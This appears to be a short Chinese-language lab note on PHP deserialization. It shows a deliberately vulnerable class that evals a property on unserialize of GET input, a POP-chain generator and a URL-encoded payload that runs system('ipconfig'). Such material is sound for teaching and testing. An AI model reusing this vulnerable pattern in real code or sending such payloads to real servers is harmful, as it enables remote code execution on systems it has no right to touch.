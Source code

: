 ```php

class Vul {
    protected $data;
    function hello() {
        @eval($this->data);
    }

    // function __call($name, $args) {
    //     $this->hi();
    // }
}
unserialize($_GET['code']);
?>
```

流程分析，终点是  `class Vul---->hello()------>eval()`  ，这里直接看 POP 链

```php
<?php
class Woniu {
    private $a;
    function __construct() {
        $this->a = new Vul();
    }
}
class Vul {
    // protected $data = "phpinfo();";
    protected $data = "echo system('ipconfig');";
}

// echo serialize(new Woniu());
echo urlencode(serialize(new Woniu()));
// echo base64_encode(serialize(new Woniu()));
```

```
GET: ?code=O%3A5%3A%22Woniu%22%3A1%3A%7Bs%3A8%3A%22%00Woniu%00a%22%3BO%3A3%3A%22Vul%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00data%22%3Bs%3A24%3A%22echo+system%28%27ipconfig%27%29%3B%22%3B%7D%7D
```

<img src="图片\Snipaste_2023-02-04_20-12-59.png" alt="Snipaste_2023-02-04_20-12-59" style="zoom:80%;" />